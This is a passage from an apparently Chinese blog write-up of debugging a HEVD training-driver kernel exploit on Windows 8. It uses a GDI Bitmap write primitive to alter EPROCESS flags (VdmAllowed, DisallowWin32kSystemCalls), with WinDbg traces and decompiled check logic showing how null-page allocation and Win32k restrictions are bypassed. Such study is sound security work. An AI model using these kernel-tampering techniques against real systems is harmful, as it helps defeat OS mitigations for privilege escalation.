我们尝试使用Bitmap来修改VdmAllowed看看能不能进行零页分配，继续执行到达我们setbitmap的地方。

```
kd&gt; g
Break instruction exception - code 80000003 (first chance)
001b:00021d21 cc              int     3
kd&gt; dt nt!_EPROCESS VdmAllowed 85a44040
   +0x0c4 VdmAllowed : 0y1
```

可以看到VdmAllowed被改掉了，进入刚才的判断

```
kd&gt; g
Breakpoint 1 hit
nt!NtAllocateVirtualMemory+0x9b7://判断edx小于1000
81a89b25 3bd0            cmp     edx,eax
kd&gt; r edx
edx=00000060
kd&gt; p
nt!NtAllocateVirtualMemory+0x9b9:
81a89b27 0f8257781200    jb      nt! ?? ::NNGAKEGL::`string'+0x19d1a (81bb1384)
kd&gt; p//判断VdmAllowed为1，允许零页申请
nt! ?? ::NNGAKEGL::`string'+0x19d1a:
81bb1384 f787c400000000000001 test dword ptr [edi+0C4h],1000000h
kd&gt; p
nt! ?? ::NNGAKEGL::`string'+0x19d24:
81bb138e 0f859987edff    jne     nt!NtAllocateVirtualMemory+0x9bf (81a89b2d)
kd&gt; p
nt!NtAllocateVirtualMemory+0x9bf://跳转到正常流程，而不返回C0000F0
81a89b2d 8bc6            mov     eax,esi
```

可以看到，绕过了刚才的判断，接下来直接执行，可以看到，NtAllocateVirtualMemory返回了STATUS_SUCCESS（图）

[](https://p1.ssl.qhimg.com/t01d1a35e79c9c27dd9.png)

 

**回归Win8看防护之Win32k.sys**

下面我们来看一下Win32k的API禁用的情况，当然这里默认Disallow的比特位也是为0，也就是在当前进程不禁用Win32k系统调用，在PsConvertToGuiThread函数中。

```
kd&gt; p
nt!PsConvertToGuiThread+0x9://获得KTHREAD结构
81b0c67f 648b3524010000  mov     esi,dword ptr fs:[124h]
kd&gt; r esi
esi=8548b040
kd&gt; dt nt!_KTHREAD 8548b040
   +0x000 Header           : _DISPATCHER_HEADER
   +0x010 SListFaultAddress : (null)
kd&gt; p
nt!PsConvertToGuiThread+0x2c://ecx获得EPROCESS结构
81b0c6a2 8b8e80000000    mov     ecx,dword ptr [esi+80h]
kd&gt; p
nt!PsConvertToGuiThread+0x32://对应Flags2的偏移
81b0c6a8 f781c000000000000080 test dword ptr [ecx+0C0h],80000000h
kd&gt; dt nt!_EPROCESS Flags2 8548b040+70
   +0x0c0 Flags2 : 0x1020201
kd&gt; dt nt!_EPROCESS DisallowWin32kSystemCalls
   +0x0c0 DisallowWin32kSystemCalls : 0y0//判断Disallow比特位的值
```

这里DisallowWin32kSystemCalls的比特位为0，也就是允许win32k调用，这里到达一处条件判断，判断的就是这个比特位，如果为1，则会跳转返回C0000005，当前状态为0，允许执行时，会继续执行。

```
kd&gt; p
nt!PsConvertToGuiThread+0x3c:
81b0c6b2 757e            jne     nt!PsConvertToGuiThread+0xbc (81b0c732)
kd&gt; p
nt!PsConvertToGuiThread+0x3e:
81b0c6b4 8d55ff          lea     edx,[ebp-1]
```

接下来，我们注释掉还原的setbitmap部分，重新执行，看到Disallow比特位为1，这时候程序会进入错误处理，返回C0000022

```
kd&gt; dt nt!_EPROCESS DisallowWin32kSystemCalls 866654c0
   +0x0c0 DisallowWin32kSystemCalls : 0y1//对应比特位为1
kd&gt; p
nt!PsConvertToGuiThread+0x32:
81b0c6a8 f781c000000000000080 test dword ptr [ecx+0C0h],80000000h
//判断Flags2.DisallowedWin32kSystemCalls
kd&gt; p
nt!PsConvertToGuiThread+0x3c:
81b0c6b2 757e            jne     nt!PsConvertToGuiThread+0xbc (81b0c732)
kd&gt; p
nt!PsConvertToGuiThread+0xbc:
81b0c732 b8220000c0      mov     eax,0C0000022h   //进入错误判断，返回C0000022
```

来看下这段代码逻辑。


```
signed int __stdcall PsConvertToGuiThread()
{
  v0 = __readfsdword(292);//获取_KTHREAD结构体
  if ( *(_BYTE *)(v0 + 346) )//判断_KTHREAD结构体的Previous Mode
  {
    if ( *(int **)(v0 + 60) == &amp;KeServiceDescriptorTable )//检查是否是win32的线程
    {
      v1 = *(_DWORD *)(v0 + 128);
      if ( *(_DWORD *)(v1 + 192) &amp; 0x80000000 )//判断DisallowedWin32kSystemCalls
      {
        result = 0xC000022;//返回C000022 STATUS_ACCESS_DENIED
      }
```

整个Win32k的检查过程是这样的，KiFastCallEntry -&gt; KiEndUnexpectRange -&gt; PsCovertToGUIThread。这个检查过程的依据是SSDT，系统调度表，当调用不在SSDT表时，也就是第一次调用Win32k System Call的时候，会检查win32k是否允许调用。如下代码逻辑：

```
.text:00511652 loc_511652:                             ; CODE XREF: _KiEndUnexpectedRange+15j
.text:00511652                                         ; _KiSystemService+8Aj
.text:00511652                 mov     edi, eax ;eax = SSDTIndex
.text:00511654                 shr     edi, 8;eax/256
.text:00511657                 and     edi, 10h;//SSDT or SSDTShadow
.text:0051165A                 mov     ecx, edi
.text:0051165C          add     edi, [esi+3Ch];//检查_KTHREAD-&gt;ServiceTable
                                //kd&gt; dt nt!_KTHREAD ServiceTable
                                //+0x03c ServiceTable : Ptr32 Void
.text:0051165F                 mov     ebx, eax
.text:00511661                 and     eax, 0FFFh
.text:00511666                 cmp     eax, [edi+8];//检查当前系统调用号
//和ServiceTable中的调用号，确定是不是在SSDT
.text:00511669                 jnb     _KiEndUnexpectedRange//如果不在，则跳转
```

在KiEndUnexpectedRange中会通过PsConvertToGuiThread来Check状态，在这里会检查win32k系统调用的情况，如果Flags2.DisAllowedWin32kSystemCalls为1，则禁用状态，返回C000022 ，也就是STATUS_ACCESS_DENIED

```
.text:00511384 _KiEndUnexpectedRange proc near         ; CODE XREF: _KiSystemService+19B_x0019_j
.text:00511384                 cmp     ecx, 10h
.text:00511387                 jnz     short loc_5113C3
.text:00511389                 push    edx
.text:0051138A                 push    ebx//系统调用号
.text:0051138B            call _PsConvertToGuiThread@0 ; PsConvertToGuiThread()
```

默认是不启用的，则能成功打开cmd。

[](https://p1.ssl.qhimg.com/t0107981ff3e166205b.png)

我们通过setbitmap可以将其改为启用，这样PsConvertToGuiThread就会返回C000022，则后续会造成调用CreateProcess中由于禁用win32k.sys导致程序加载失败。

[](https://p0.ssl.qhimg.com/t01a2a8e12dd0f24ad0.png)

其实整个HEVD的这个exploit调试还是很有趣的，Bitmap也可以修改kernel Address达到一些比较巧妙的效果，当然，如果修改的地址有问题，则会直接BSOD，我就多次发生这样的情况，快照保存了几十个。文中有一些疑问和思考不够深入的地方请师傅们多多批评指正，谢谢大家！

**超级好文：**[https://www.coresecurity.com/system/files/publications/2016/10/Abusing-GDI-Reloaded-ekoparty-2016_0.pdf](https://www.coresecurity.com/system/files/publications/2016/10/Abusing-GDI-Reloaded-ekoparty-2016_0.pdf)

**文中改写源码地址：**[https://github.com/k0keoyo/try_exploit/tree/master/HEVD_Win10&amp;Win8](https://github.com/k0keoyo/try_exploit/tree/master/HEVD_Win10&amp;Win8)
